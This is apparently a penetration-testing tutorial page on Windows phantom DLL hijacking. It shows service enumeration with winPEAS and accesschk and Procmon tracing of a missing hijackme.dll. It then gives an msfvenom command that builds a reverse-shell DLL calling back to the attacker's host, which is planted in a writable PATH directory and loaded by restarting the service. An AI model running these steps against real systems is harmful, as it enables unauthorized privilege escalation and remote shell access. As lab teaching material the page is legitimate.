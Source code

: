 # Phantom DLL Injection

in this type of DLL we target a missing dll and place our own dll instead.

Use winPEAS to enumerate non-Windows services:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../../.gitbook/assets/image%20%2871%29.png)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```text
accesschk.exe /accepteula -uvqc user dllsvc
```

![](../../../../../.gitbook/assets/image%20%2881%29.png)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```text
 sc qc dllsvc
```

![](../../../../../.gitbook/assets/image%20%2874%29.png)

![](../../../../../.gitbook/assets/image%20%2888%29.png)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```text
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](../../../../../.gitbook/assets/image%20%2878%29.png)

On the main screen, deselect registry activity and network activity.

![](../../../../../.gitbook/assets/image%20%28102%29.png)

Start the service:

```text
net start dllsvc
```

![](../../../../../.gitbook/assets/image%20%2880%29.png)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](../../../../../.gitbook/assets/image%20%28103%29.png)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

On Kali, generate a reverse shell DLL named hijackme.dll:

```text
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```text
net stop dllsvc
net start dllsvc
```

![](../../../../../.gitbook/assets/image%20%2890%29.png)






